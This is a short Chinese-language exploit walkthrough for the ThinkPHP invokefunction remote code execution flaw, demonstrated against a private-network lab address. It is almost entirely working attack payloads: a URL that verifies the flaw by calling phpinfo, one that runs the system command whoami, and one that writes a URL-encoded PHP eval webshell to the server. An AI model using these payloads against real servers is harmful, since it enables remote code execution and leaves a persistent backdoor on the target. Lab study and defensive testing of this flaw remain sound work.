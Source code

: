 #### 验证漏洞 

```plain
http://192.168.1.21:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1%20and%20it%27ll%20execute%20the%20phpinfo
```


[![img](assets/1696730458947-8c39eb56-c967-4a7f-8266-692d30b9637f.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203246915-498624312.png)

任意代码执行

```plain
http://192.168.1.21:8080/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

[![img](assets/1696730459000-a5c43ecf-2153-4cd7-a2e7-894ea0c0eede.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203306469-951466578.png)

写入webshell

```plain
<?php eval($_POST[zcc]);?> #需要进行url编码

http://192.168.1.21:8080/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zcc.php&vars[1][]=%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%7a%63%63%27%5d%29%3b%3f%3e
```
